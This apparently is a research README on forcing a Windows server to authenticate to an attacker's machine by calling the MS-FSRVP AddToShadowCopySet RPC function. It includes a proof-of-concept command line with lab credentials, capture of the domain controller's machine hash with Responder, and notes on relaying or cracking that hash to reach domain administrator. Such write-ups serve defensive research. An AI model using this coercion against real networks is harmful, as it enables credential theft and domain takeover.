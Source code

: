 # MS-FSRVP - Remote call to AddToShadowCopySet (opnum 3)

## Summary

 - **Protocol**: [[MS-FSRVP]: File Server Remote VSS Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b)

 - **Protocol UUID**: a8e0653c-2744-4389-a61d-7373df8b2292

 - **Protocol version**: 1.0

 - **SMB Named pipe**: `\\pipe\FssagentRpc`

 - **Function name**: [`AddToShadowCopySet`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/07c2bef1-0471-4a82-8254-a91a7b4a33b8)

 - **Function operation number**: `3`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\\pipe\FssagentRpc` and bind to the desired [`MS-FSRVP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b) protocol (with uuid `a8e0653c-2744-4389-a61d-7373df8b2292` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-FSRVP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\\pipe\FssagentRpc` This pipe is connected to the protocol [[MS-FSRVP]: File Server Remote VSS Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b) and allows to call RPC functions of this protocol. We will then call the remote [`AddToShadowCopySet`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/07c2bef1-0471-4a82-8254-a91a7b4a33b8) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
AddToShadowCopySet('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
DWORD AddToShadowCopySet(
         [in] handle_t hBinding,
         [in] GUID ClientShadowCopyId,
         [in] GUID ShadowCopySetId,
         [in] [string] LPWSTR ShareName,
         [out] GUID* pShadowCopyId);
```

## References

 - Documentation of protocol [MS-FSRVP]: File Server Remote VSS Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b

 - Documentation of function `AddToShadowCopySet`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/07c2bef1-0471-4a82-8254-a91a7b4a33b8